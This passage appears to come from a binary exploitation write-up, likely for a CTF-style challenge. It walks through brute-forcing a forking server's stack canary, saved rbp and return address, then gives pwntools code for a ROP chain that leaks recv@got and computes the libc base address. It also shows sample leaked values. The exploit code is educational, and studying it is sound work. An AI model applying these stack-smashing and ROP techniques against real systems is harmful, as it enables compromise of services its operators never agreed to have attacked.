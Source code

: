 The brute forcing of these values can take quite some time (took over 20 minutes for me). Luckily, these values do only change upon restart of the server (the requests are handled in child-processes).

Eventually, we should see following output (this will be different upon each server-restart):
```python
[+] Got canary: 0xf1c69b1943149700
[+] Got rbp: 0x7ffd7a57ae50
[+] Got ret: 0x55aab8bbe562
```

#### Leaking Libc
After having brute forced all necessary values, we can calculate the offset for PIE from the return address. Then using a simple rop chain we can leak recv@got and calculate the libc base address.
```python
def leak(ssh, canary, rbp, ret):
    binary.address = ret - 0x1562 # Offset from ret to PIE base
    rop = ROP([binary, libc])
    #clear(2)

    # call write(4, recv@got, 8);
    rop.raw(binary.address + poprdi)
    rop.raw(0x4) # fd
    rop.raw(binary.address + poprsi)
    rop.raw(binary.got['recv']) # function to leak, can be any function
    rop.raw(0x0) # for r15
    rop.raw(binary.address + poprdx)
    rop.raw(0x8) # 8 bytes
    rop.raw(binary.plt['write'])

    payload = b'A' * 0x38 + p64(canary) + p64(rbp) + bytes(rop)

    io = start(ssh)
    io.sendlineafter('admin:\n', payload)
    recv = u64(io.recv(8))
    libc.address = recv - libc.symbols['recv'] # Calculate offset

    clear(1)
    log.success("Leaked libc base: %s" % hex(libc.address))
    io.close()
```
As previously explained, we call write with the address of recv@got and use it to calculate the offset of libc.

```python
canary = bf_value(ssh, "canary", b'')
rbp = bf_value(ssh, "rbp", p64(canary))
ret = bf_value(ssh, "ret", p64(canary) + p64(rbp))

# Leak libc
 leak(ssh, canary, rbp, ret)
```
We can call the leak function right after brute forcing the values.


[image]: https://made0x78.com/assets/images/bseries_ch6_stack.gif